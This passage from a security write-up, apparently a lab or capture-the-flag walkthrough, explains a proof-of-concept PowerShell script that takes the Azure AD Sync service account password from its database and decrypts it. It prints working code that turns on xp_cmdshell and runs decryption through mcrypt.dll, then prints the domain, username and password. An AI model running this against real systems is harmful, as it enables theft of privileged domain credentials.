 

Now it decrypts:



    $decrypted = $null
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)



The rest is just formatting the output and printing:



    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)



### New POC

#### Differences

Other than some additional print statements, the first two sections of
the [new
POC](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) are
exactly the same. The third part is new. Instead of fetching the keys
and decrypting in PowerShell, it passes those commands through
`xp_cmdshell` so that the database runs the commands:



    $cmd = $client.CreateCommand()
    $cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.                 MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host        `$decrypted`"'"
    $reader = $cmd.ExecuteReader()

    $decrypted = [string]::Empty

    while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
        $decrypted += $reader.GetString(0)
    }

    if ($decrypted -eq [string]::Empty) {
        Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
        return
    }
